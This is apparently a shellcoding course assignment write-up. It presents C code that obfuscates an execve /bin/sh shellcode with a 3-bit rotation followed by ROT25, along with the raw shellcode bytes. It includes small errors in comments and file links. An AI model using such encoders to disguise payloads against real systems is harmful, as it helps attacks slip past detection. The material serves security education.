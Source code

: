 ## Assignment #4: Create Encoding Scheme
---
---
### Introduction
---
This assignment consist on creating a Custom Encoder like the Insertion Encoder, and create a PoC using the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm) as the shellcode. 
Once this is done, a decoder stub has to be implemented in ASM to decode our shellcode and run it. The encoder will be done using C language.

### Encoder Schema
---
The Encoder requires a working shellcode as input. This string containing the shellcode, will be encoded with the schema and the results will be printed in hexadecimal. 

The encoder will do the following: 
- Rotate each byte of the shellcode 3 bits to left 
- Do a ROT25 on each byte of the shellcode 

#### Left Shift Byte Bits
First to do in the Encoder is to shift 3 bites to left on each byte of the original shellcode:

- Get a byte from the shellcode string
- Shift the bits three positions to left
- If the most significant bit is "1" it should rotate to the less significant bit

This is implemented in the following way:
```pseudocode
shifted_byte = ( original_byte << SHIFTS ) | ( original_byte >> ( BITS_TO_ROTATE - SHIFTS ))
```
Where:
- SHIFTS is how many shifts to do. It our case, is "3" shifts to left
- BITS_TO_ROTATE indicates how many bits are implied in the rotation. As we are working with bytes, it's value is "8" bits.

#### ROT25
Once the original shellcode has been Left Shifted, it's time to ROT25 it. As we work with bytes it's values can go from 0x00 to 0xFF
- Each byte of the shellcode will get a new value that’s the actual value + 25
- In the case of the last 25 possible values for a byte, we will start from 0x00. 

This table will show the idea:
```markdown
  --------------------------------------------------------------------------------
  |  Original Value    0x00   0x01   ...   0x80   ...   0xe7   0xe8   ...   0xff |
  |  Decimal Value        0      1   ...    128   ...    231    232   ...    255 |
  |  ROT25 Value       0x19   0x1a   ...   0x99   ...   0x00   0x01   ...   0x18 |
  --------------------------------------------------------------------------------
```
This will be implemented for each byte in this way:
```pseudocode
rot_max_value = 256 – 25		                         ; 231 (0xe7) 
if (original_value < rot_max_value) then 
   rot25_value = original_value + 25 
else				                                         ; Here the value will be 231 or greater 
   rot25_value = (original_value + rot) – 256        ; It's rotated from the start
end if 
```
### Encoder Implementation
---
The encode will be implemented in C language. 

- A string is defined to store the original shellcode. This is the string to encode. From the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm): 
```c
unsigned char code[]= \ 
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50
 \x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"; 
```
- For each byte of the original shellcode, it's bites are shifted "3" positions to left:
  - A bucle iterates each byte of the string, and for each byte
  - Each byte is shifted to right as been explained in the previous sections
  - The shifted byte value is printed on stdout
```c
        // 3 bits left Rotation 
        for (int i = 0; i< strlen(code); i++) { 
            code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS)); 
            printf("0x%02x,", code[i]); 
        }	 
```
- Once shellcode been shifted, a ROT25 is applied:
  - If the byte value is lower than "231", simply adds 25 to the byte value
  - If the byte value is greater or equal to "231", adds 25 to it's value for substracting 256 of it
  - Prints each byte one ROT'ed on screen
```c
        // ROTX the ShellCode 
        unsigned char rot = 25; 
        unsigned char max_rot = 256 - rot; 

        for (int i = 0; i < strlen(code); i++) { 
                if (code[i] < max_rot) {                     ; value < "231"
                        code[i] = code[i] + rot;             ; Add 25
                        printf("0x%02x,",code[i]); 
                } else {                                     ; value >= "31"
                        code[i] = (code[i] + rot) - 256;     ; value = original_value + rot - 256
                        printf("0x%02x,",code[i]); 
                } 
        } 
```

After this all, the Encoded shellcode will be printed in screen. This is the shellcode that needs to go into the ASM Decoder Stub to be decoded and executed. The following info for later use is printed on screen:
- Legth of the shellcode
- The original shellcode string in hex 
- The string in hex of the left rotated shellcode 
- The string in hex of ROT25 of the already rotated shellcode 

The full code for the Encoder can ve found in the [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c):

```c
#include <stdio.h>
#include <string.h>

#define BITS_TO_ROTATE	8
#define SHIFTS 		      3

unsigned char code[]= \
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

void main (void)
{
	printf("\nShellCode Length: %d\n", strlen(code)); 
	printf("\nOriginal ShellCode:\n");

	for (int i = 0; i < strlen(code); i++) {
		printf("0x%02x,", code[i]);
	}

	printf("\n\nShifted Left 3 bits ShellCode:\n");

	// 3 bits left Rotation
	for (int i = 0; i< strlen(code); i++) {
		code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS));
		printf("0x%02x,", code[i]);
	}

	printf("\n\nROT25 ShellCode:\n");

	// ROTX the ShellCode
	unsigned char rot = 25;
	unsigned char max_rot = 256 - rot;

	for (int i = 0; i < strlen(code); i++) {
		if (code[i] < max_rot) {
			code[i] = code[i] + rot;
			printf("0x%02x,",code[i]);
		} else {
			code[i] = (code[i] + rot) - 256;
			printf("0x%02x,",code[i]);
		}
	}
	printf("\n");
}	
```
### Encoder: Compile and Run















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment04) for this assignment contains the following files:

- [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c) : This C file is the implementation of the Encoder Scheme. Prints out a encoded shellcode.
- [Decode-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Decode-Execve-Stack.nasm) : This is the NULL free code for the Egg Hunter.
- [Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment4/ReverseShell-ExecveStack_V2.nasm) : This is the code for the shellcode to use in the PoC.
- [shellcode.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/shellcode.c) : The C template Decode-Execve-Stack.nasm Shellcode, ready to compile and execute


### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
